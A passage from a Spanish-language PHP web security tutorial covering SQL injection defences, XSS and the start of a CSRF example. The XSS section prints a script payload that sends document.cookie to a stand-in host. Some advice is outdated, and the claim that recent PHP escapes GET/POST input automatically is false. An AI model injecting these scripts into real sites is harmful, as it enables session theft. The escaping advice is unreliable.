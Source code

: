 * **Filtrar los datos procedentes de los formularios. SIEMPRE**. Por ejemplo, si los nombres de usuario sólo pueden estar compuestos por letras y números, no se deben permitir caracteres como comillas, puntos y coma, asteriscos, almohadillas, etc. Vimos cómo se valida y se sanea un formulario en el tema anterior.
* **Escapar los caracteres especiales** de cualquier dato de entrada antes de enviarlo al gestor de bases de datos. Por ejemplo, *mysql_real_escape_string()* coloca barras invertidas antes de ciertos caracteres. *addslashes()* hace algo parecido. Esto hace que ya no se ejecuten como sentencias SQL. En las versiones recientes de PHP, el escape de caracteres especiales se hace automáticamente con cualquier dato que llegue por GET o POST.
* **Usar nombres poco habituales para las tablas** de la base de datos. Una estrategia frecuente es utilizar un identificador significativo (como *users* para la tabla de usuarios) y añadirle varios caracteres o números aleatorios (así, la tabla se convertiría en algo como *users_58283*). Ese sufijo aleatorio se suele almacenar en un archivo de configuración para que esté accesible para todos los scripts del programa. Esta técnica tan simple dificulta enormemente cualquier intento de acceso fraudulento a las tablas.

### 3.4.3. XSS (cross site scripting)

El ataque por XSS consiste en **ejecutar código de scripting malicioso** (básicamente, Javascript) en el contexto del sitio web.

Hay muchas formas de hacer XSS. Por ejemplo, imagínate que tenemos un blog de noticias y que un usuario malicioso publica, *como parte del texto de una entrada*, este string:

```javascript
<script>document.href = 'https://otrositio.com';</script>
```

¿Qué ocurriría? Pues que cada vez que alguien visite nuestro portal y cargue esa noticia, será redirigido a *otrositio.com*, donde probablemente pretenderán venderle medicamentos para la disfunción eréctil o algo por el estilo.

Otra cosa que suele hacerse con XSS es robar datos de las *cookies* del cliente, aprovechando que Javascript puede acceder a las *cookies*. Para ello, el atacante solo tiene que inyectar un código como este:

```javascript
<script>document.location = 'https://otrositio.com?cookies=' + document.cookie</script>
```

Para evitar los ataques XSS, la estrategia más útil, otra vez, es **filtrar y validar todos los datos externos**. El filtrado de datos es sencillo de hacer y te ahorrará mogollón de problemas. En resumen: **nunca** te fíes de ningún dato que provenga de un formulario si no lo has saneado antes y le has quitado todos los caracteres sospechosos.

### 3.4.4. CSRF o XSRF (cross site request forgery)

Este tipo de ataques **explota la confianza que tiene un sitio web en la identidad de un usuario**. Es decir, se toma a un usuario válido registrado en un sitio (por ejemplo, sitio-confiable.com) y, desde otro sitio (por ejemplo, sitio-maligno.com), se le fuerza a hacer algo chungo en sitio-confiable.com.

Veámoslo con un ejemplo. Supón que eres un usuario administrador en sitio-confiable.com. Para borrar a un usuario de tu web (o cualquier otro recurso), lanzas una URL como https://sitio-confiable.com/usuario/delete/28 (donde 28 es el id del usuario). Este tipo de URLs son muy habituales en las aplicaciones web.
